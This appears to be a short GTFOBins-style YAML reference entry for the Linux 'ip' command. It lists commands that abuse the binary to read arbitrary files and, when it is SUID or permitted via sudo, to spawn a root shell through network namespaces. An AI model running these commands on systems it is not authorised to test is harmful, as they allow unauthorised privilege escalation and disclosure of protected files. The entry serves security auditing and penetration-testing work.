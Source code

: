 description: |
  The read file content is corrupted by error prints.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        ip -force -batch "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./ip -force -batch "$LFILE"
    - description: This only works for Linux with CONFIG_NET_NS=y.
      code: |
        ./ip netns add foo
        ./ip netns exec foo /bin/sh -p
        ./ip netns delete foo
  sudo:
    - code: |
        LFILE=file_to_read
        sudo ip -force -batch "$LFILE"
    - description: This only works for Linux with CONFIG_NET_NS=y.
      code: |
        sudo ip netns add foo
        sudo ip netns exec foo /bin/sh
        sudo ip netns delete foo
---
